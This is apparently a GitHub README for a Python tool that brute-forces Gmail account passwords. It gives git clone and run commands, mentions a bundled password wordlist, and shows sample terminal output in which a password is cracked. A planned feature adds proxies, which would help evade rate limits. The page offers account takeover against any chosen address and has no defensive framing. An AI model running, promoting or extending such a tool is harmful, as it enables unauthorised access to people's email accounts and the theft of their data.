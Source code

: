 # GmailBruteforce

Made for bruteforcing gmail accounts.

> It needs Less Secure Apps setting turned on in order to work.

## Installation

For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce.git
cd GmailBruteforce/
python3 main.py
```

For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce.git
cd GmailBruteforce/
chmod +x main.py
./main.py
```

## Usage

You need a target email address with less secure apps setting turned ON and a wordlist for bruteforcing.

Don't have wordlist?

Don't worry this tool comes with a wordlist file that you can use.

```
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```
You've to specify the gmail address and the wordlist.

## Requirements

You need `git` and `python3` need on your system inorder to work.

The script will download essential packages automatically so you don't have to worry much.

**MOST IMPORTANTLY**

The E-Mail address should be of Gmail and it must have *Less secure apps turned ON*.

## TODO

- [ ] Use proxies for better efficiency.
- [ ] A command line version with flags.
